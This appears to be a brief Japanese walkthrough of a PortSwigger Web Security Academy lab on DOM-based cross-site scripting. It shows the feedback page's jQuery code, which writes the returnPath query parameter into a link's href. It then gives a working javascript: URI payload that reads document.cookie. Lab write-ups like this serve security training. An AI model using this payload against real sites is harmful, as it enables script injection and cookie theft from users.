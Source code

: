 # location.search を利用して、href 属性に DOM XSS を埋め込む

以下のハッキングラボを実施します
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink

このラボには、フィードバック送信ページに DOM ベースのクロスサイト スクリプティングの脆弱性が含まれています。

- 1. ハッキングラボにアクセスします
- 2. フィードバックページのソースを確認します

```html
<script>
  $(function () {
    $("#backLink").attr("href", new URLSearchParams(window.location.search).get("returnPath"));
  });
</script>
```

- 3. URL は次のようになっており、returnPath パラメータが動的に設定されています

https://0a4e00df03dc5380830c9265006f0018.web-security-academy.net/feedback?returnPath=/

- 4. returnPath パラメータを JavaSctipt URI を指定するとスクリプトが実行できます
     https://0a4e00df03dc5380830c9265006f0018.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
